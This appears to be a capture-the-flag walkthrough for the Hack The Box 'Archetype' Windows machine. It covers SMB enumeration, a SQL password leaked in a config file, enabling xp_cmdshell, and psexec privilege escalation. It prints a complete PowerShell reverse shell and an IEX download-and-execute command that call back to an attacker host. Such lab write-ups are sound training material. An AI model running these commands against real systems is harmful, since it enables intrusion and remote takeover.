

Hack The Box :: Starting Point :: Archetype :: Windows

# Enumeration

	ports=$(nmap -p- --min-rate=1000  -T4 10.10.10.27 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
	nmap -sC -sV -p$ports 10.10.10.27

[nmap.webp](../_resources/58647eb67f0d102d823447d331dc0ea5.webp)

Ports 445 and 1433 are open, which are associated with file sharing (SMB) and SQL Server.

It is worth checking to see if anonymous access has been permitted, as file shares often store configuration files containing passwords or other sensitive information. We can use `smbclient` to list available shares.

[smbclient1.webp](../_resources/65218ef5b31e48e38591b2f1c4e6e0d8.webp)

It seems there is a share called `backups`. Let's attempt to access it and see what's inside.

[smbclient2.webp](../_resources/216d7d461de5267df212eda09d6b6e33.webp)
There is a dtsConfig file, which is a config file used with SSIS.

	<DTSConfiguration>
	    <DTSConfigurationHeading>
	        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
	    </DTSConfigurationHeading>
	    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
	        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
	    </Configuration>
	</DTSConfiguration>

# Foothold

We see that it contains a SQL connection string, containing credentials for the local Windows user `ARCHETYPE\sql_svc`.

Let's try connecting to the SQL Server using [Impacket's](https://github.com/SecureAuthCorp/impacket) mssqlclient.py.

[sql.webp](../_resources/605471d325615d2acf62a4679d66d19f.webp)

We can use the `IS_SRVROLEMEMBER` function to reveal whether the current SQL user has sysadmin (highest level) privileges on the SQL Server. This is successful, and we do indeed have sysadmin privileges.

This will allow us to enable `xp_cmdshell` and gain RCE on the host. Let's attempt this, by inputting the commands below.

	EXEC sp_configure 'Show Advanced Options', 1;
	reconfigure;
	sp_configure;
	EXEC sp_configure 'xp_cmdshell', 1
	reconfigure;
	xp_cmdshell "whoami"

The `whoami` command output reveals that the SQL Server is also running in the context of the user `ARCHETYPE\sql_svc`. However, this account doesn't seem to have administrative privileges on the host.

Let's attempt to get a proper shell, and proceed to further enumerate the system. We can save the PowerShell reverse shell below as `shell.ps1`.

`$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`

Next, stand up a mini webserver in order to host the file. We can use Python.
`python3 -m http.server 80`

After standing up a netcat listener on port 443, we can use `ufw` to allow the call backs on port 80 and 443 to our machine.

	nc -lvnp 443
	ufw allow from 10.10.10.27 proto tcp to any port 80,443

We can now issue the command to download and execute the reverse shell through xp_cmdshell.

`xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.3/shell.ps1\");"`

A shell is received as `sql_svc`, and we can get the user.txt on their desktop.

# Privilege Escalation

As this is a normal user account as well as a service account, it is worth checking for frequently access files or executed commands. We can use the command below to access the PowerShell history file.

`type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

This reveals that the `backups` drive has been mapped using the local administrator credentials. We can use Impacket's `psexec.py` to gain a privileged shell.

[psexec.webp](../_resources/a19ea8a8d1f123c9d937bbc04603476c.webp)

This is successful, and we can now access the flag on the administrator desktop.